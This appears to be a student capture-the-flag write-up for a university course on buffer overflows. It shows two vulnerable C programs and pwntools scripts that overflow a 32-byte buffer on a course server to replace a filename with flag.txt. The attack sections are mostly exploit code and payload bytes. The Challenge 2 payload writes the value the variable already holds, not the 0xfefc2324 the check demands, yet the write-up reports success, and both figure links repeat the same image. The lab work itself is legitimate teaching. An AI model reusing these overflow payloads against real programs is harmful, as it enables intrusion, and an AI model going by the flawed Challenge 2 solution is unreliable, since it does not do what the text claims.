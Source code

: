 # CTF WEEK 4 - Buffer Overflow

## Challenge 1

```
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%40s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");
    
    FILE *fd = fopen(meme_file,"r");
    
    while(1){
        if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);
    
    return 0;
}
```
### Atack:
Induce a buffer overflow in the 'buffer' by injecting more than 32 bytes, exceeding its initialized space. Once you've surpassed the 32-character limit, input the desired content you want the array, responsible for storing the filename to be opened, to contain (e.g., 'write flag.txt'). By doing so, you ensure that the file opened will be 'flag.txt'.
```
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag.txt")
r.interactive()
```

After running the exploit:

![Fig1](./imgs/CTFWEEK5/1.jpg)

## Challenge 2

```
#include <stdio.h>
#include <stdlib.h>

int main() {
    char val[4] = "\xef\xbe\xad\xde";
    char meme_file[9] = "mem.txt\0\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%45s", &buffer);
    if(*(int*)val == 0xfefc2324) {
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);
    
    return 0;
}
```
### Atack:
To pass this obstacle, all that is required is to input the precise sequence of characters into the buffer, which we achieved by making necessary edits to the Python exploit file.
```
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(b"12345678901234567890123456789012\xef\xbe\xad\xdeflag.txt\0")
r.interactive()
```
After running the exploit:

![Fig1](./imgs/CTFWEEK5/1.jpg)
